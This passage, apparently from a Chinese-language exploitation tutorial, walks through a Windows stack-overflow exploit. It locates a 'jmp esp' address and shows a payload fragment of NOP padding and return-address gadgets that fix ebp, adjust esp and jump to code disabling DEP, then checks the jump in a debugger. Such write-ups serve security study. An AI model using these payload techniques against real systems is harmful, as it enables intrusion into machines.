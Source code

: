 ![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-011.png)

在0x7dc5c1b4找到一条jmp esp指令, 继续修改shellcode
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-012.png)

```
...
"\x90\x90\x90\x90"		# 180 byte
"\x52\xe2\x92\x7c"		# mov eax,1 retn
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x19\x4a\x97\x7c"		# 增大esp
"\xb4\xc1\xc5\x7d"		# jmp esp
"\x24\xcd\x93\x7c"		# 关闭DEP代码的起始地址
```

OD再次附加调试, 现在成功跳回栈区0x0012fec4处, 0x0012fdfc-0x0012fec4=-200
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x014-013.png)

